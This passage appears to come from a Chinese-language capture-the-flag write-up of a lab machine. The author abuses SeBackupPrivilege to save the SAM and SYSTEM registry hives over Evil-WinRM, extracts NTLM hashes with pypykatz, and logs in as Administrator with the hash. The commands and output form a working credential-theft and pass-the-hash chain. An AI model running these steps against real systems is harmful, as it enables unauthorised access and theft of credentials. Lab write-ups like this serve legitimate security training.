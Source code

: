 用户具有`SeBackupPrivilege `权限，参考:

> https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/

```shell
*Evil-WinRM* PS C:\Users> cd ..
*Evil-WinRM* PS C:\> mkdir Temp
An item with the specified name C:\Temp already exists.
At line:1 char:1
+ mkdir Temp
+ ~~~~~~~~~~
    + CategoryInfo          : ResourceExists: (C:\Temp:String) [New-Item], IOException
    + FullyQualifiedErrorId : DirectoryExist,Microsoft.PowerShell.Commands.NewItemCommand
*Evil-WinRM* PS C:\> reg save hklm\sam c:\Temp\sam
The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\system c:\Temp\system
The operation completed successfully.

*Evil-WinRM* PS C:\> cd Temp
*Evil-WinRM* PS C:\Temp> download sam

Info: Downloading C:\Temp\sam to sam

Info: Download successful!
*Evil-WinRM* PS C:\Temp> download system

Info: Downloading C:\Temp\system to system

Info: Download successful!
```

使用`pypykatz`抓取hash

> https://github.com/skelsec/pypykatz

```shell
╭─bamuwe@Mac ~
╰─$ pypykatz registry --sam sam system
WARNING:pypykatz:SECURITY hive path not supplied! Parsing SECURITY will not work
WARNING:pypykatz:SOFTWARE hive path not supplied! Parsing SOFTWARE will not work
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 3c2b033757a49110a9ee680b46e8d620
============== SAM hive secrets ==============
HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

登陆Administrator：

```shell
╭─bamuwe@Mac ~
╰─$ evil-winrm -i 10.10.11.35 -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
```